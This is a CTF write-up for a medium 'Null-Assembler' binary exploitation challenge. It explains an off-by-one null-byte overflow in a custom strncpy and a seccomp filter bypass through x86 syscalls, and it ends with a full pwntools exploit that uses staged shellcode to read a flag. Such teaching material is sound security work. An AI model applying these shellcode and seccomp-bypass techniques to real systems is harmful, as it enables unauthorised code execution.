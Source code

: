 ![img](assets/banner.png)

<img src='assets/htb.png' style='zoom: 80%;' align=left />  <font size='10'>Null-Assembler</font>

03<sup>th</sup> Feb 2025

Prepared By: `S4muii`

Challenge Author(s): `S4muii (Sameh M. Youssef)`

Difficulty: <font color='orange'>Medium</font>

<br><br><br><br>



# Synopsis

Null Assembler is a smaller Assmebler written in c. The core bug is an off-by-one at the end of a string operation, letting you write a null byte just past the intended buffer. With careful input, you can smash that single byte out of bounds, corrupting adjacent data. This tiny mistake opens the door to memory corruption and, with the right moves, full code execution.

## Description  

Step into the world of Volnaya’s underground cyber operations and take control of the **Null-Assembler**—a custom-built assembler interface. You’ll be greeted with a prompt and a set of simple, powerful instructions: mov, add, sub, cmp, je, jne, jmp, and more. Your mission: craft assembly code line by line, define your own labels, and see your logic come to life as the engine executes your instructions.

## Skills Required

- Shellcoding.
- Seccomp.
- ...

## Skills Learned

- Learn how to spot off-by-one bugs.
- Learn how to bypass seccomp filters with x86 syscalls.
- ...

# Solution

## Finding the vulnerability
1. off-by-one error in `safe_strncpy` function.
```c
    char *safe_strncpy(char* dst, const char *restrict src,size_t dsize)
    {
        memcpy(dst, src, dsize);
        dst[strlen(dst) <= dsize ? strlen(dst): dsize] = '\0';
        return dst;
    }
```
In `strncpy` whenever you copy a string if the string is longer than n then it will copy up-to `n` bytes and not null-terminate the string. in here we tried to fix that by making our our safe copy of `strncpy` which always null-terminates the dst but in the case if the src is longer than `n` it will write the null byte out-of-bounds at `dst[dsize]`.

2. insufficient checks in the seccomp filter.
```bpf
    A = sys_number
    A >= 0x40000000 ? kill : next

    A == fstat ? ok : next
    ...
```
The seccomp filter doesn't check for the arch and that presents an opportunity for an attacker since in our modern x86-64 machines we can still execute x86 syscalls then we can use them as well. And since they all have different numbers than x86-64 syscalls than we have a bigger surface than we initially could have. 

## Exploitation
* Fill the first page of code with nop instructions til you get to the second page . this is done since overwriting the idx if it's `0x000000xx` will result in it being `0x0` and hence starting at the beginning of the shellcode which is not ideal and give us no benefits.
* Place the shellcode to open/read/write the flag in the data section of the jit.
* Make sure that at idx 0x100 we will jump to the middle of an instruction that will allow us to break out of the jit emitted code.
* Add in mprotect(data,0x1000,0o7) call in the first stage shellcode to make the data section executable.
* Create a new label with the maximum length and hence overwriting its idx's LSB with 0x0 to be `0x100` and jmp to it triggering the first stage shellcode to call mprotect and then jmp to the second stage shellcode which will open/read/write the flag.


and here's the full exploit
```py
from pwn import *
context.arch        = 'i386'
context.log_level   = 'CRITICAL'

REGS = {
    'eax': 'h0',
    'ebx': 'h1',
    'ecx': 'h2',
    'edx': 'h3',
}

def create_atom(inst):
    assert len(asm(inst)) <= 0x2
    return asm(inst) + b'\xeb'+p8(0x1) # a jump to skip the first byte of the next mov inst

def mov(reg,value):
    return f'mov {REGS[reg]},{value}\n'.encode()

def cmp(reg0,reg1):
    return f'cmp {REGS[reg0]},{REGS[reg1]}\n'.encode()

def ret():
    return b'ret\n'

def label(name):
    return name.encode()+b':\n'

def jmp(label):
    return f'jmp {label}\n'.encode()

def str(reg,idx):
    return f'str {REGS[reg]},{idx}\n'.encode()

def conn():
    p = remote('127.0.0.1', 1234)
    return p 

def get_one_byte(idx):
    p = conn()

    sc_first_stage = b''
    sc_first_stage += create_atom('push edi; push edi') # same opcode as push rdi
    sc_first_stage += create_atom('mov esi,ebx')        # esi = PAGE_SIZE
    sc_first_stage += create_atom('syscall')
    sc_first_stage += create_atom('pop edi ; pop edi')
    sc_first_stage += create_atom('jmp edi')

    with context.local(arch='amd64',bits=64):
        sc_second_stage = asm(f"""
    open:
        lea rbx, [rip+flag]
        mov ecx,0x0
            
        mov eax,0x5
        int 0x80
    
    read:
        mov edi,eax
        lea rsi,[rip+flag_bytes]
        mov rdx,0x100
                            
        mov eax,SYS_read
        syscall

    exit:
        xor edi,edi
        lea rsi,[rip+flag_bytes]
        mov dil,BYTE PTR[rsi+{idx}]

        mov eax,SYS_exit_group
        syscall
                
        flag:
            .string "./flag.txt"
                            
        flag_bytes:
    """).ljust(0x50,asm('nop'))

    # fill the first page with some instructions with a nop slide
    # function prologue     movs    cmps    
    # 15                +   41*5 +  17*2 =  254
    payload  = b''
    payload += mov('eax',0x0)*41
    payload += cmp('eax','ebx')*17 # just to fill up the gap

    # start of our sc_first_stage execution which will call mprotect on the data section
    for i in range(0, len(sc_first_stage), 4):   
        payload += mov('eax',u32(sc_first_stage[i:i+4]))

    # fill the data section with sc_second_stage that will have our shellcode to orw the flag
    for i in range(0, len(sc_second_stage), 4):
        payload += mov('eax',u32(sc_second_stage[i:i+4]))
        payload += str('eax',i)

    payload += mov('eax',0xa)   # SYS_mprotect
    payload += mov('ebx',0x1000)
    payload += mov('edx',0x7)

    payload += label('A'*0x20)  # label to overflow
    payload += jmp('A'*0x20)    # trigger the jump to our sc_first_stage
    payload += ret()            # return to finish the function and start jit execution

    p.sendline(payload)

    byte = int(p.recvall().strip().split()[-1],base=10)
    if byte == 0:
        return None
    return p8(byte)


idx     = 0
flag    = b''

with log.progress('Flag....',level=logging.CRITICAL) as l:
    while True:
        b = get_one_byte(idx)
        if b == None:
            l.success(flag.decode())
            break
        flag+= b
        l.status(flag.decode())
        idx+=1
```